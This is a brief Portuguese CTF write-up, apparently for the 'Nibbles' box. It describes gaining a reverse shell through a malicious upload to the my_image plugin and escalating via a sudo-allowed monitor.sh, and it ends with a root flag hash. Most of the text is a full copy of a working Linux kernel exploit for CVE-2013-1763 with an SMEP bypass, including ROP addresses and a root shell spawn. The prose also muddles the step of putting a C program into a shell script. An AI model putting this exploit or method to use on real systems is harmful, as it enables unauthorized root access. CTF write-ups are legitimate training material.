


# Acesso ao sistema

Acesso ao sistema por meio de um reverse shell

[reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)


O shell foi obtido por meio de um upload de imagem maliciosa, que foi feito por meio de um plugin vulnerável. O plugin my_image foi o alvo escolhido para o upload do script malicioso. temos acesso ao usuário nibbler padrão

Usando o comando sudo -l


temos acesso a um diretório com um caminho
(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


O usuário nibbler pode executar o arquivo monitor.sh como root sem senha, então podemos substituir o conteúdo de monitor.sh por um script C de escalada de privilégios local

```c
/** 
 * based on the exploit by SynQ
 *
 * Modified PoC for CVE-2013-1763 with SMEP bypass
 * Presentation: Practical SMEP Bypass Techniques on Linux
 * Vitaly Nikolenko
 * vnik@cyseclabs.com
 * 
 * Target: Linux ubuntu 3.5.0-23-generic #35~precise1-Ubuntu SMP Fri Jan 25 17:13:26 UTC 2013 x86_64 x86_64 x86_64 GNU/Linux
 *
 * gcc sockdiag_smep.c -O2 -o pwn 
 */

/**
 EDB Note: Video ~ https://youtu.be/jHJd-5NvWlQ
**/

#include <unistd.h>
#include <sys/socket.h>
#include <netinet/tcp.h>
#include <errno.h>
#include <linux/if.h>
#include <linux/filter.h>
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <linux/inet_diag.h>
#include <sys/mman.h>
#include <assert.h>
//#include <linux/sock_diag.h>
//#include <linux/unix_diag.h>
//#include <linux/netlink.h>
#include "sock_diag.h"
#include "unix_diag.h"
#include "netlink.h"

unsigned long user_cs;
unsigned long user_ss;
unsigned long user_rflags;

typedef int __attribute__((regparm(3))) (* _commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (* _prepare_kernel_cred)(unsigned long cred);
_commit_creds commit_creds;
_prepare_kernel_cred prepare_kernel_cred;
unsigned long sock_diag_handlers, nl_table;

static void saveme() {
	asm(
	"movq %%cs, %0\n"
	"movq %%ss, %1\n"
	"pushfq\n"
	"popq %2\n"
	: "=r" (user_cs), "=r" (user_ss), "=r" (user_rflags) : : "memory" 		);
}

void shell(void) {
	if(!getuid())
		system("/bin/sh");

	exit(0);
}

static void restore() {
	asm volatile(
	"swapgs ;"
	"movq %0, 0x20(%%rsp)\t\n"
	"movq %1, 0x18(%%rsp)\t\n"
	"movq %2, 0x10(%%rsp)\t\n"
	"movq %3, 0x08(%%rsp)\t\n"
	"movq %4, 0x00(%%rsp)\t\n"
	"iretq"
	: : "r" (user_ss),
	    "r" ((unsigned long)0x36000000),
	    "r" (user_rflags),
	    "r" (user_cs),
	    "r" (shell)
	);
}

int __attribute__((regparm(3)))
kernel_code()
{
	commit_creds(prepare_kernel_cred(0));
	restore();
	
	return -1;
}

int main(int argc, char*argv[])
{
	int fd;

	struct sock_diag_handler {
		__u8 family;
		int (*dump)(void *a, void *b);
	};

	unsigned family;
	struct {
		struct nlmsghdr nlh;
		struct unix_diag_req r;
	} req;

	if ((fd = socket(AF_NETLINK, SOCK_RAW, NETLINK_SOCK_DIAG)) < 0){
		printf("Can't create sock diag socket\n");
		return -1;
	}

	void *mapped;
	void *fakestruct;
	struct sock_diag_handler a;
	a.dump = (void *)0xffffffff8100b74f;

	commit_creds = (_commit_creds) 0xffffffff8107ee30;
	prepare_kernel_cred = (_prepare_kernel_cred) 0xffffffff8107f0c0;

	assert((fakestruct = mmap((void *)0x10000, 0x10000, 7|PROT_EXEC|PROT_READ|PROT_WRITE, 0x32|MAP_FIXED|MAP_POPULATE, 0, 0)) == (void*)0x10000);
	memcpy(fakestruct+0xad38, &a, sizeof(a));

	assert((mapped = mmap((void*)0x35000000, 0x10000000, 7|PROT_EXEC|PROT_READ|PROT_WRITE, 0x32|MAP_POPULATE|MAP_FIXED|MAP_GROWSDOWN, 0, 0)) == (void*)0x35000000);

	unsigned long *fakestack = (unsigned long *)mapped;
	*fakestack ++= 0xffffffff01661ef4;
	int p;
	for (p = 0; p < 0x1000000; p++)
		*fakestack ++= 0xffffffff8100ad9eUL;
	
	fakestack = (unsigned long *)(mapped + 0x7000000);
	printf("[+] fake stack addr = %lx\n", (long unsigned)fakestack);
	*fakestack ++= 0xffffffff8133dc8fUL;
	*fakestack ++= 0x407e0;
	*fakestack ++= 0xffffffff810032edUL;
	*fakestack ++= 0xdeadbeef;
	*fakestack ++= (unsigned long)kernel_code; // transfer control to our usual shellcode

	memset(&req, 0, sizeof(req));
	req.nlh.nlmsg_len = sizeof(req);
	req.nlh.nlmsg_type = SOCK_DIAG_BY_FAMILY;
	req.nlh.nlmsg_flags = NLM_F_ROOT|NLM_F_MATCH|NLM_F_REQUEST;
	req.nlh.nlmsg_seq = 123456;

	req.r.sdiag_family = 45;

	req.r.udiag_states = -1;
	req.r.udiag_show = UDIAG_SHOW_NAME | UDIAG_SHOW_PEER | UDIAG_SHOW_RQLEN;

	saveme();
	if ( send(fd, &req, sizeof(req), 0) < 0) {
		printf("bad send\n");
		close(fd);
		return -1;
	}
}
```
O script foi retirado de [exploit-db](https://www.exploit-db.com/raw/44299)

root.txt: de5e5d6619862a8aa5b9b212314e0cdd
